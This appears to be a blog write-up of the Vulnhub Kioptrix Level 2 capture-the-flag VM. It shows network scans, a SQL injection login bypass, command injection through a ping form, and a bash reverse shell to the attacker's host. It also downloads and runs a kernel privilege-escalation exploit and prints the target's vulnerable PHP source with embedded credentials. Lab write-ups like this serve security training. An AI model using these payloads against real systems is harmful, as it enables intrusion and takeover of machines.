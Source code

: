 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 2"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp2/
tags: vulnhub
---
```


> “Never underestimate the determination of a kid who is time-rich and cash-poor.” -- Cory Doctorow, Little Brother

![][1]

You can download this VM at [](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/). Let's start pwning !

### 0x01 Reconnaissance

<details>
  <summary>
    get VM IP address
  </summary>
<pre>
&nbsp;
<b>imd@kali:~$</b> sudo arp-scan 192.168.222.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.
192.168.222.128 00:0c:29:bb:86:18       VMware, Inc.
192.168.222.254 00:50:56:f1:d9:90       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.000 seconds (128.00 hosts/sec). 4 responded

</pre>
</details>

Target IP: 192.168.222.128

### 0x02 Scanning

<details>
  <summary>
    nmap full scan
  </summary>
<pre>
&nbsp;
<b>imd@kali:~$</b> nmap -Pn -n -A -p- 192.168.222.128
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 10:08 EST
Nmap scan report for 192.168.222.128
Host is up (0.0096s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2020-12-16T13:00:04+00:00; -2h08m58s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
854/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)

Host script results:
|_clock-skew: -2h08m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds

</pre>
</details>

Found 7 open ports: 22, 80, 111, 443, 631, 854, 3306. Server is running Apache httpd 2.0.52 on port 80/tcp, MySQL on port 3306/tcp, CUPS/1.1 on port 631/tcp. Port 80  is always an interesting port, let's check it on a web browser.

### 0x03 Exploitation

![][2]

It's a web html/php based login form. Since we know there's a MySQL server running on the backend, I tried basic SQL injection methods to bypass the login, and `admin' or 1=1#` worked. The result of the SQL query looks like this: `SELECT * FROM users WHERE username='admin' or 1=1#' AND password=''` and the pound/sharp/hashtag whatever you call it made the next parameters commented out.

![][3]

As we can see here, there's a ping command prompt which might be vulnerable to a [Command Injection](https://www.owasp.org/index.php/Command_Injection). 

![][4]

We used the semicolon to run any shell command after the first command executed. If this is the case, we can run a reverse shell too. There are many available cheat sheets on the web and one of the most known website is pentestmonkey. for example, a bash reverse shell. I tried to inject another command `127.0.0.1 ; whoami` and found out it was indeed vulnerable to a command injection.

![][5]

I've explored a bit to see what other details I could extract, then I attempted to spawn a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) with a bash reverse shell command `; bash -i >& /dev/tcp/192.168.222.129/9001 0>&1` and before doing this, you will need to run netcat first to listen to incoming connections on our machine. `nc -lvp 9001`

<details>
  <summary>low-priv shell access</summary>
<pre>
&nbsp;
<b>imd@kali:~$</b> nc -lvp 9001
listening on [any] 9001 ...
192.168.222.128: inverse host lookup failed: Unknown host
connect to [192.168.222.129] from (UNKNOWN) [192.168.222.128] 32771
bash: no job control in this shell
<b>bash-3.00$</b> whoami
apache
<b>bash-3.00$</b> uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
<b>bash-3.00$</b> ls
index.php
pingit.php
<b>bash-3.00$</b> lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$ ls
index.php
pingit.php
<b>bash-3.00$</b> cat index.php

</pre>
</details>

Interesting. let's see what's inside the source code of index.php

<details>
  <summary>index.php source code</summary>
{% highlight php %}
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
<html>
<body>
<?php
if ($row['id']==""){
?>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>
<?php
	} //END of login form
?>

<!-- Start of HTML when logged in as Administator -->
<?php
	if ($row['id']==1){
?>
	<form name="ping" action="pingit.php" method="post" target="_blank">
		<table width='600' border='1'>
		<tr valign='middle'>
			<td colspan='2' align='center'>
			<b>Welcome to the Basic Administrative Web Console<br></b>
			</td>
		</tr>
		<tr valign='middle'>
			<td align='center'>
				Ping a Machine on the Network:
			</td>
				<td align='center'>
				<input type="text" name="ip" size="30">
				<input type="submit" value="submit" name="submit">
			</td>
			</td>
		</tr>
	</table>
	</form>


<?php
}
?>
</body>
</html>
{% endhighlight %}
</details>

We immediately saw credentials on the source code. and we'll see if we can access MySQL.

<details>
  <summary>MySQL login attempt</summary>
<pre>
&nbsp;
<b>bash-3.00$</b> mysql -u john -p
Enter password: hiroshima
ls
ls
ls
^C

</pre>
</details>

Nothing shows up. What could be the problem? the system is not allowing us to connect. It means that the password we're using is possibly already an old password. That's why it is not giving us a shell output. At least we tried. Let's move on and look for something else.

<details>
  <summary>sudo and suid permissions</summary>
<pre>
&nbsp;
<b>bash-3.00$</b> sudo -l
Password:

<b>bash-3.00$</b> 
<b>bash-3.00$</b> find / -perm -u=s -type f 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su

</pre>
</details>

Looking at the files with suid bit, we don't know which one is vulnerable and which one is not. In that case, we need to check out the priv esc suid on [gtfobins](https://gtfobins.github.io/). If something is here, that means it is vulnerable. We found none after checking all the files.

<details>
  <summary>crontabs</summary>
<pre>
&nbsp;
<b>bash-3.00$</b> cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

\# run-parts
01 * * * * root run-parts /etc/cron.hourly
02 4 * * * root run-parts /etc/cron.daily
22 4 * * 0 root run-parts /etc/cron.weekly
42 4 1 * * root run-parts /etc/cron.monthly

<b>bash-3.00$</b> crontab -l
no crontab for apache

</pre>
</details>

How bout crontabs? Yep, we found none. There is no scheduled crontab for apache user. So what's next? We know we got a shell but with a low privilege. We found out this is an apache shell. We know this is running CentOS. So how about we try to find a kernel exploit to linux 2.6.9.EL. A quick google search of "<mark>linux 2.6.9-55.EL centos exploit</mark>" leads us to this first link: https://www.exploit-db.com/exploits/9542 or searching from searchsploit command on your machine.

<details>
  <summary>transfer and download exploit</summary>
<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit centos 4.5
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Co | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS  | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfute | linux/local/35370.c
------------------------------------------------- ---------------------------------
Shellcodes: No Results

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix2/9542.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.222.128 - - [23/Dec/2020 13:19:10] "GET /9542.c HTTP/1.0" 200 -

<b>bash-3.00$</b> cd /tmp
<b>bash-3.00$</b> wget http://192.168.222.129/9542.c
--11:24:27--  http://192.168.222.129/9542.c
           => `9542.c'
Connecting to 192.168.222.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

  0K ..                                                    100%    5.04 MB/s

11:24:27 (5.04 MB/s) - `9542.c' saved [2643/2643]

</pre>
</details>

In order to download the exploit from attacker box, we need to host the exploit and we did this using python2. Download the exploit from the victim's machine in /tmp directory.

### 0x04 Gaining root access

<details>
  <summary>compile and gain root access</summary>
<pre>
&nbsp;
<b>bash-3.00$</b> ls
9542.c
<b>bash-3.00$</b> gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
<b>bash-3.00$</b> ls
9542.c
exploit
<b>bash-3.00$</b> ./exploit
sh: no job control in this shell
<b>sh-3.00#</b> whoami
root
<b>sh-3.00#</b> id
uid=0(root) gid=0(root) groups=48(apache)
<b>sh-3.00#</b> hostname
kioptrix.level2

</pre>
</details>

We used gcc to compile the c file, named the compiled file 'exploit' and ran it and now we are root! Congratulations..K1optr1x 2 -- rooted!



[1]: https://i.imgur.com/lBO1ezp.png
[2]: https://i.imgur.com/JWKV9N4.png
[3]: https://i.imgur.com/Vl7waEv.png
[4]: https://i.imgur.com/lrVIqAN.png
[5]: https://i.imgur.com/XokJzFd.png


